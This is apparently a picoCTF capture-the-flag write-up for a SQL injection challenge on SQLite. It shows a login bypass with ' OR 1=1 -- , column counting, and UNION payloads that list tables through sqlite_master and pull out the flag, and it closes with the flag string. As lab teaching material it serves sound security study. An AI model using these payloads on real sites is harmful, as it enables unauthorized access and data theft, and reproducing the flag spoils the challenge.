



# More SQLi

Login page, gives you the query it is executing

`SELECT id FROM users WHERE password = '' AND username = ''`

Password gets checked first. We can login as a random user with `' OR 1=1 -- `

Presents us with another database and we can search the query.

We can query the table names in sqllite through 
`SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- `

We can guess the query to be something like 

`SELECT city, address, phone FROM OFFICE WHERE city = '<input>'`

Given query returns 3 columns through error checking with
`' or 1=1 order by 4 -- ` returning nothing

Injection to get the names of all tables in database

`' or 1=1 union SELECT tbl_name, null, null FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- `

Now to find column information in the more_table table

`' or 1=1 union SELECT sql, null, null FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='more_table' --` 

Finally querying more_table gives us the flag

`' or 1=1 union select id, flag, null from more_table -- `

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}	